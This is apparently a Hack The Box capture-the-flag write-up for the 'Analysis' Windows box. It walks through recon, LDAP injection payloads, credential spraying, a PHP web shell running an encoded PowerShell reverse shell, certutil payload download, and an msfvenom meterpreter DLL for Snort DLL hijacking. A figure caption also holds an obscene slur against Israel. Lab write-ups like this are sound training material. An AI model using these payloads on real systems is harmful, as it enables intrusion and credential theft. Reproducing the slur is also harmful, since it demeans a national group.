


# 🔎 ANALYSIS

<figure><figcaption></figcaption></figure>

### Hacking Phases for Analysis HTB:

1. Information Gathering
2. Enumeration web services
3. Analysis web vulnerabilities
4. Gain web shell
5. Lateral movement
6. PrivEsc

***

## I => Information Gathering

### Initial Reconnaissance

Begin with a comprehensive `nmap` scan to identify active ports and services on the "Analysis" box.

**Command:**

```bash
nmap -sC -sV -O -T4 --min-rate=500 -oA nmap/analysis 10.10.11.250
```

**Result Snapshot:**

* Host Response: 10.10.11.250 is up (Latency: 0.26s).
* Majority of TCP Ports: Closed.
* Open Ports and Services:
  * 53/tcp: Domain (Simple DNS Plus)
  * 80/tcp: HTTP (Microsoft HTTPAPI httpd 2.0)
  * 88/tcp: Kerberos Security (Microsoft Windows Kerberos)
  * 135/tcp: Microsoft Windows RPC
  * 139/tcp: NetBIOS Session (Microsoft Windows netbios-ssn)
  * 389/tcp: LDAP (Microsoft Windows Active Directory LDAP)
  * 445/tcp: Microsoft Directory Services
  * 464/tcp: kpasswd5
  * 593/tcp: Microsoft Windows RPC over HTTP
  * 636/tcp, 3269/tcp: TCP Wrapped
  * 3268/tcp: LDAP (Microsoft Windows Active Directory LDAP)
  * 3306/tcp: MySQL (unauthorized)
* OS Detection: Inconclusive (Potential Windows OS)
* Host Script Results:
  * SMB2 Protocol Negotiation Failed

**Analysis:** The scan reveals a typical Windows domain environment with services like Kerberos, LDAP, and Microsoft RPC. The unusual presence of a MySQL server and failed SMB2 negotiation suggest potential avenues for exploration.

**Next Steps:**

1. **DNS Mapping:** Add `analysis.htb` to `/etc/hosts`.
2. **Web Application Assessment:** Explore the web application on port 80 for vulnerabilities.
3. **Service Exploration:** Investigate LDAP, Kerberos, and SMB services.

***

### II => HTTP Enumeration && Exploitation

**Objective:** Uncover web applications for initial access or crucial information.

After reviewing the [`http://analysis.htb/`](http://analysis.htb/), which appears to be static, I started digging for any leads to begin my exploration.

<figure><figcaption><p><strong>analysis.htb</strong></p></figcaption></figure>

**Tools & Techniques:**

1. **DNS Enumeration**:
   * Utilizing tools like `dnsenum`, `gobuster`, and custom bash scripts.
2. **Commands Used**:
   * **dnsenum**: Enumerates DNS details.

```bash
dnsenum --dnsserver 10.10.11.250 --enum -p 0 -s 0 -o out.txt -f wordlist.txt analysis.htb
```

* **Gobuster**: Brute-forces DNS subdomains.

```bash
gobuster dns -d analysis.htb -w wordlist.txt -r 10.10.11.250
```

* **Bash Script**: Queries for subdomains.

```bash
for sub in $(cat wordlist.txt); do
dig $sub.analysis.htb @10.10.11.250 | grep -v ';\|SOA' | sed -r '/^\s*$/d' | grep $sub | tee -a out.txt
done
```

**Outcome & Analysis:**

* The goal is to discover subdomains associated with additional services or web applications.

**Next Steps:**

* Investigate discovered subdomains.
* Note `internal.analysis.htb` for further exploration.

&#x20;It's seems like the main page just `403` If we try to go any DIR we will have `404`. Use `dirsearch` to scan `internal.analysis.htb` for hidden DIRS/PHP files.

#### Visual Insight:

<figure><figcaption><p><strong>403 MAIN PAGE</strong></p></figcaption></figure>

<figure><figcaption><p><strong>KOSOM ISRAEL NOT FOUND 404</strong></p></figcaption></figure>

As we see we didn't found kosom Israel.

#### Uncovering Hidden Gems

```bash
dirsearch -q -r -u http://internal.analysis.htb/ -i 200,300-399 -e php
```

**Findings:** Discovered several directories and files including login and user list endpoints.

&#x20;After extensive search, focus shifted to LDAP injection due to the results from nmap.

**Visual Evidence:**

<figure><figcaption><p><strong>DIRSEARCH OUTPUT</strong></p></figcaption></figure>

_**Parameters Fuzzing:**_

* Found `name`

```bash
ffuf -c -v -w parameters.txt -u "http://internal.analysis.htb/users/list.php?FUZZ=test"
```

* I discovered `name` is vulnerable to LDAP injection

**Uncovering LDAP Injection**

1. **Parameter Identification**:
   * During the exploration of `http://internal.analysis.htb/users/list.php`, the `name` parameter was identified.
   * A critical observation was made that the `name` parameter was susceptible to LDAP injection.
2. **Exploiting LDAP Injection**:
   * A series of rigorous fuzzing exercises were conducted on the `name` parameter.
   * The tools and techniques employed revealed two significant LDAP attributes: `objectclass` and `description`.
   * The successful LDAP query structure was identified as&#x20;

```bash
url?name=*)(%26(FUZZING=*)
url?name=*)(%26(objectClass=*)(FUZZING=*)
url?name=*)(%26(objectClass=*)(description=*)
# I think the full query like this
(&(name=*)(objectClass=*)(description=*))
```

* Intriguingly, the `objectClass` attribute consistently held the value `user`, and the `description` attribute contained a lengthy string, interpreted as the password for the `technician` user.

To further exploit this discovery, a specialized script was utilized, significantly enhanced and optimized for this specific scenario. This custom script, available on [Hunt3r0x's GitHub](https://github.com/Hunt3r0x/LDAP-Analysis-HTB), was pivotal in extracting the complete password.

**Script Usage:**

```bash
python3 fuzzer.py --charset allchars-wordlist.txt
```

<figure><figcaption><p><strong>fuzzer SCRIPT USAGE</strong></p></figcaption></figure>

**When i have creds in windows ENV i start for enumerate for creds validity for most common protocols.**

**User Enumeration:**

* Employed `kerbrute` for user enumeration with discovered credentials.

```bash
# Warping users with DC 'analysis.htb'
sed -i "s|$|@analysis.htb|" users.txt
# Then
kerbrute userenum -d analysis.htb users.txt --dc analysis.htb
```

* Found several users, including `technician`.

**Kerbrute Output:**


**Protocols Enumeration:**

* Used `crackmapexec` to enumerate protocols with `technician` credentials.

```bash
crackmapexec <$PROTOCOL> 10.10.11.250 -u 'technician' -p 'password'
```

```bash
for protocol in mssql smb ldap ftp winrm ssh rdp;do crackmapexec $protocol 10.10.11.250 -u 'technician' -p 'password';done
```

Nothing we found.

**Web Login:**

* Successfully logged in using discovered credentials at `http://internal.analysis.htb/employees/login.php`.

#### Exploiting File Upload

* Found and exploited a file upload function in the admin panel.
* Uploading testing PHP code.&#x20;

```php
<?php echo "<h1>HELLO \;</h1>";?>
```

<figure><figcaption><p><strong>EXPLOIT FILE UPLOAD 1</strong></p></figcaption></figure>

**It's worked:**


**Gaining reverse shell**

```php
// Uplaod this but make sure you put ur PS script
<?php system("powershell -e <PS script encoded with BASE64>")?>
// You can use https://www.revshells.com/
```

&#x20;And fire up your netcat and visit the uploaded shell.

<figure><figcaption><p><strong>EXPLOIT FILE UPLOAD 2</strong></p></figcaption></figure>

**netcat**

```bash
rlwrap -cAr nc -lvnp <PORT>
```

**reverse shell**  Gained shell access as `svc_web`. And the user flag was in owned by `jdoe` user.

<figure><figcaption><p><strong>GOT REVERSE SHELL</strong></p></figcaption></figure>

***

## III => Privilege Escalation

**Objective:** To escalate privileges and gain higher level access on the system.

**Techniques & Tools:**

1. **Initial Lateral Movement:**
   * Initially gained shell access as `svc_web`.
   * The user flag was under `jdoe`'s ownership.
2. **PowerShell Script for Privilege Escalation:**
   * Utilized the [PrivescCheck PowerShell script](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1). **Upload the PS script to the machine**

```bash
# First
## In your terminal
wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
## And then open HTTP server
python3 -m http.server <PORT>
# Second
## In gained shell
certutil -urlcache -f http://<TUN0>:<PORT>/PrivescCheck.ps1 PrivescCheck.ps1
```

* Executed the script with:

```bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format HTML"
```

* Discovered leaked credentials for `jdoe` in the winlogon registry key.&#x20;

<figure><figcaption><p><strong>LEAKED CREDS</strong></p></figcaption></figure>

3. **Credential Validation with CrackMapExec:**
   * Validated the discovered credentials using CrackMapExec.

```bash
crackmapexec <PROTOCOL> 10.10.11.250 -u 'user' -p 'password'
```

```bash
for protocol in mssql smb ldap ftp winrm ssh rdp;do crackmapexec $protocol 10.10.11.250 -u 'user' -p 'password';done
```

* Confirmed the credentials' validity over the WinRM protocol.&#x20;

<div align="center">

<figure><figcaption><p><strong>CRACKMAPEXEC</strong></p></figcaption></figure>

</div>

3. **Accessing jdoe's Account with Evil-WinRM:**
   * Gained access to `jdoe` account using Evil-WinRM:

```bash
evil-winrm -i 10.10.11.250 -u "jdoe" -p "password"
```

**Successfully retrieved the user flag**


I really nooob in windows PrivEsc so after long day with mess and cyber community tips I got this:

4. **Exploiting CVE-2016-1417 for Administrator Access:**

* Identified the machine's vulnerability to CVE-2016-1417 (DLL hijacking in Snort 2.9.7.0-WIN32).
* Created a DLL payload with msfvenom:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=1337 -f dll > tcapi.dll
```

* Set up a listener in Metasploit:

```bash
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost TUN0
set lport 1337
run
```

* Uploaded `tcapi.dll` to `C:\snort\lib\snort_dynamicpreprocessor` using `jdoe`'s shell in Evil-WinRM.

```bash
upload tcapi.dll tcapi.dll # In Evil-WinRM
## If you got no access try to remove .dll files with
dell *.dll 
## Then
upload tcapi.dll tcapi.dll
```

### WE IN /;

<figure><figcaption><p><strong>WE FUCKED THE ADMIN UP</strong></p></figcaption></figure>

* Successfully executed the DLL payload, exploiting the vulnerability.
* Gained a Meterpreter shell with administrative access through DLL hijacking.

**ANOTHER${IFS}SHITY${IFS}THING<<\<SEE${IFS}YOU/:**
